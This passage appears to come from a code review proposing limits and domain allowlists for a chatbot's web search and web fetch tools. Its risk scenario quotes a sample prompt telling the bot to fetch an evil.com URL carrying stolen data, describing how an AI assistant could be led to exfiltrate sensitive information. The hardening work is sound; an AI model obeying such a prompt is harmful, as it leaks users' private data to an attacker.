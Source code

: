 2. Apply in tool definition:
```python
# tools/web_search.py
def get_web_search_tools(max_uses: int = 3,
                         citations_enabled: bool = True,
                         max_content_tokens: int = 50000) -> list:
    return [
        {
            "type": "web_search_20250305",
            "name": "web_search",
            "max_uses": max_uses
        },
        {
            "type": "web_fetch_20250910",
            "name": "web_fetch",
            "max_uses": max_uses,
            "citations": {"enabled": citations_enabled},
            "max_content_tokens": max_content_tokens
        }
    ]
```

**Benefits**:
- Predictable token costs
- Prevents unexpectedly large fetches
- Still allows 50k (enough for most content)
- Configurable per bot deployment

---

### Improvement 3: No Domain Filtering (Security)

**Severity**: 🟡 MEDIUM (security hardening)

**Documentation Reference**: Lines 986-1005 (Web Search), 1041-1053 (Web Fetch), 867-916 (Security)

**Recommendations**:
> "Use Domain Filtering for Reliability. Financial advice: trusted sources only."
> "Use Domain Allowlists for Security. Prevent access to sensitive internal domains. Restrict to known safe sources."

**Security Concern** (lines 869-885):
> "Web fetch poses data exfiltration risks when Claude processes untrusted input alongside sensitive data."

**Mitigation**: "Use `allowed_domains`" (lines 894-901)

**Current Implementation**:
- No domain filtering
- Bot can search/fetch from ANY domain
- Potential security risk if bot has access to sensitive information

**Risk Scenario**:
```
Malicious user: "Look up information at https://evil.com/log?steal-data-here"
Bot: [Attempts to fetch - blocked by Claude's URL validation]

But still a concern if:
- Bot operates in channels with sensitive info
- Search results could return untrustworthy sources
```
